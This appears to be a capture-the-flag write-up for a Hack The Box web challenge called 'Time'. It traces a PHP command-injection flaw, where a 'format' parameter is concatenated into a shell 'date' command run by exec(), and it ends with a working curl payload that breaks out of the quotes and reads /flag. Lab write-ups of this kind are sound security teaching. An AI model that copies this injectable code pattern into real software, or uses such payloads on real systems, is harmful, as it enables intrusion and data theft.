

# Time
> Get the current date and time, anytime, anywhere!



After staring this instance and browsing to the given IP, it presented us with a page that simply told the current date / time. Switching between the two showed the changing string formats in the URL right off the bat. `?format=%Y-%m-%d` for the date and `?format=%H:%M:%S` for the time.

The page source was viewable using `Ctrl+U` or browser inspector.
```
<html>
<head>
  <meta name='author' content='makelaris, makelarisjr'>
  <meta name='viewport' content='width=device-width, initial-scale=1, shrink-to-fit=no'>
  <title>Time</title>
  <link link='preload' href='//fonts.googleapis.com/css2?family=Press+Start+2P&display=swap' rel='stylesheet'>
  <link rel='stylesheet' href='//maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css' integrity='sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm' crossorigin='anonymous'>
  <link rel='icon' href='/assets/favicon.png' />
  <link rel='stylesheet' href='/static/main.css' />
</head>
<body>
  <nav class="navbar navbar-dark bg-primary navbar-expand-lg mb-4">
    <a class="navbar-brand mb-0" href="?format=%H:%M:%S">🕒 What's the time?</a>
    <div class="collapse navbar-collapse" id="navbarSupportedContent">
      <ul class="navbar-nav">
        <li class="nav-item">
          <a class="nav-link" href="?format=%Y-%m-%d">📅 What's the date? <span class="sr-only">(current)</span></a>
        </li>
      </ul>
    </div>
  </nav>
  <div class="jumbotron vertical-center">
    <div class="container">
      <div class="container">
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> 2021-07-27<span class='text-muted'>.</span></h1>
      </div>
    </div>
  </div>
</body>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
</html>
```

I tried poking at it to assess if it could be an attack vector but didn't seem like it. 

The challenge also provided with the application source code that I could download and understand how it worked. So, that' what I did next.

# Examining the Source Code
Here's what the directory structure looked like:
```
$ tree .
.
├── Dockerfile
├── build_docker.sh
├── challenge
│   ├── Router.php
│   ├── assets
│   │   └── favicon.png
│   ├── controllers
│   │   └── TimeController.php
│   ├── index.php
│   ├── models
│   │   └── TimeModel.php
│   ├── static
│   │   └── main.css
│   └── views
│       └── index.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
└── flag
```

The `flag` file in the downloadable src code was not the actual flag. It was a fake flag kept there for testing as a placeholder.
```
$ cat flag
HTB{f4k3_fl4g_f0r_t3st1ng}
```

The actual flag still had to be fetched from the challenge (remote) server, but the flag location was unknown.

Next, I moved on to review some code. From the folders present in the `challenge` directory, it looked like an MVC (Model-View-Controller) architecture. I started off with `controllers/TimeController.php` file. Here are the contents:

```
$ cat controllers/TimeController.php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This code indicated that the controller created a new `TimeModel` object and passes off the `$format` variable to it. This means the input is being handled by the model. It was time to review the model in `models/TimeModel.php` file. Here are the contents:
```
$ cat models/TimeModel.php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Aaaand there was our vulnerability in how the user input was handled and then how it was used. No input validation, no sanitization. The app took whatever we gave it and executed it. Clear **command injection** vulnerability.  

The app constructed the command to be executed using
```
$this->command = "date '+" . $format . "' 2>&1";
```
and finally executed it using
```
$time = exec($this->command);
```

Now I had the vulnerability, but before proceeding I still needed to find the actual flag location. So, I just started briefly reviewing the rest of the src code files and found the flag's real location in the `Dockerfile`. Here are the contents:
```
$ cat Dockerfile
FROM debian:buster-slim

# Setup user
RUN useradd www

# Install system packeges
RUN apt-get update && apt-get install -y supervisor nginx lsb-release wget

# Add repos
RUN wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
RUN echo "deb https://packages.sury.org/php/ $(lsb_release -sc) main" | tee /etc/apt/sources.list.d/php.list

# Install PHP dependencies
RUN apt update && apt install -y php7.4-fpm

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php/7.4/fpm/php-fpm.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Setup permissions
RUN chown -R www:www /www /var/lib/nginx

# Copy flag
COPY flag /flag

# Expose the port nginx is listening on
EXPOSE 80

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```
`COPY flag /flag` indicated that the file was available at `/flag` on the remote target.

# Exploit and Solve
I needed to craft an exploit string in a way that would let me "break out" of the quotes and then execute commands. So I wrote `';cat /flag'` and the final input to the application became
```
/?format=%H:%M:%S';cat /flag'
```
On the server side, command that would get executed would look like
```
date '%H:%M:%S';cat /flag'' 2>&1
```

Solve

```
$ curl "http://165.227.225.92:32449/?format=%H:%M:%S';cat /flag'" | grep 'HTB'

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1956    0  1956    0     0   4724      0 --:--:-- --:--:-- --:--:--  4724
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}<span class='text-muted'>.</span></h1>
```

Flag - `HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}`